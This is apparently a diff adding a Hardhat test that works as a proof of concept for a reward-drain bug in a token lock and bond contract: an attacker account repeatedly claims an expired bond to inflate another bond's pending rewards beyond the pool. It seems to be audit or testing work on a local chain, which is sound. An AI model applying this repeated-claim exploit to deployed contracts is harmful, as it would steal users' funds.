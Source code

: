     +        return { hacker: balHacker, lock: balLock, bond: balBond, pending1, pending2, pending3};
    +      };
    +      const parseEther = (v) => ethers.utils.parseEther(v.toString());
    +      const gwei = parseEther(1).div(1e9);
    +
    +      // prepare tokens
    +      const TotalRewards = parseEther(8000);
    +      await stabletoken.connect(owner).mintFor(owner.address, TotalRewards);
    +      await stabletoken.connect(owner).mintFor(user.address, parseEther(1000));
    +      const hacker = rndAddress;
    +      await stabletoken.connect(owner).mintFor(hacker.address, parseEther(2000+700));
    +      await stabletoken.connect(hacker).approve(Lock.address, parseEther(2000));
    +
    +      // bond1 - user
    +      await lock.connect(user).lock(StableToken.address, parseEther(1000), 100);
    +      await bond.distribute(stabletoken.address, parseEther(3800));
    +      expect(await bond.pending(1)).to.be.closeTo(parseEther(3800), gwei);
    +      // Skip some time
    +      await network.provider.send("evm_increaseTime", [20*86400]);
    +      await network.provider.send("evm_mine");
    +
    +      // bond2 - hacker
    +      await lock.connect(hacker).lock(StableToken.address, parseEther(1000), 10);
    +      // bond3 - hacker
    +      await lock.connect(hacker).lock(StableToken.address, parseEther(1000), 100);
    +
    +      await bond.distribute(stabletoken.address, parseEther(2100));
    +
    +      // Skip 10+ days, bond2 is expired
    +      await network.provider.send("evm_increaseTime", [13*86400]);
    +      await network.provider.send("evm_mine");
    +      await bond.distribute(stabletoken.address, parseEther(2100));
    +
    +      // check balances before hack
    +      let st = await getState();
    +      expect(st.bond).to.be.equals(TotalRewards);
    +      expect(st.lock).to.be.equals(parseEther(3000));
    +      expect(st.hacker).to.be.equals(parseEther(0+700));
    +      expect(st.pending1).to.be.closeTo(parseEther(3800+1000+1000), gwei);
    +      expect(st.pending2).to.be.closeTo(parseEther(100), gwei);
    +      expect(st.pending3).to.be.closeTo(parseEther(1000+1000), gwei);
    +
    +      // first claim of expired bond2
    +      await lock.connect(hacker).claim(2);
    +      st = await getState();
    +      expect(st.bond).to.be.closeTo(TotalRewards.sub(parseEther(100)), gwei);
    +      expect(st.hacker).to.be.closeTo(parseEther(100+700), gwei);
    +      expect(st.pending1).to.be.gt(parseEther(3800+1000+1000));
    +      expect(st.pending2).to.be.eq(parseEther(0));
    +      expect(st.pending3).to.be.gt(parseEther(1000+1000));
    +
    +      // hack
    +      const remainReward = st.bond;
    +      let pending3 = st.pending3;
    +      let i = 0;
    +      for (; remainReward.gt(pending3); i++) {
    +        // claim expired bond2 repeatedly
    +        await lock.connect(hacker).claim(2);
    +        // pending3 keeps increasing
    +        pending3 = await bond.pending(3);
    +      }
    +      console.log(`claim count: ${i}\nremain: ${ethers.utils.formatEther(remainReward)}\npending3: ${ethers.utils.formatEther(pending3)}\n`);
    +